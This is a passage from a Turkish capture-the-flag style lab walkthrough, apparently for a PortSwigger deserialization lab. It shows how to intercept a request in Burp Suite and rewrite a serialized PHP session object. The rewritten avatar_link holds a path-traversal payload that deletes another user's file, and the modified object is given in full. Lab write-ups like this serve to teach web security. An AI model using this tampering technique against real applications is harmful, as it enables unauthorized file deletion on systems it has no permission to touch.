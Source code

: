 ```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"h4bakeq82z855rhm8irjilypsy2ee4t7";s:11:"avatar_link";s:19:"users/wiener/avatar";}
```

Yukarıda da görüldüğü üzere session objemizde istediğimiz değişiklikleri yapabilir durumdayız. Bu yüzden lab ortamının bizden istediği görevi yerine getirmek üzere ilgili işlemlerimize devam ediyoruz. Burada öncelikle bir silme işlemini gerçekleştirmeye başlıyoruz ve bu sırada burpsuite ile `‘intercept on’` yani trafiği yakalayıp durdurma özelliği ile ilgili kısımları değiştirmeye başlıyoruz. 

![Untitled](0x0D%20e7c75cda4af14d9f8c7d57729ec14f3a/Untitled%204.png)

Burada karşımıza çıkan ilk istekte bulunan session objesini aşağıdaki gibi değiştiriyoruz. Bunu yapma sebebimiz en üst dizine giderek buradaki home klasöründe carlos kullanıcısına ait bir txt dosyasını silmektir. Burada değiştirdiğimiz yeni ifadenin uzunluğunu da güncellemeyi unutmamalıyırz. Bizim yaptığımız senaryoya göre uzunluğumuz 52 birim olarak değişmiş durumda.  Bu şekilde güncellediğimizde artık program burada belirttiğimiz dosyayı silecektir. 

```php
O:4:"User":3:{s:8:"username";s:6:"wiener";s:12:"access_token";s:32:"h4bakeq82z855rhm8irjilypsy2ee4t7";s:11:"avatar_link";s:52:"../../../../../../../../../../home/carlos/morale.txt";}
```

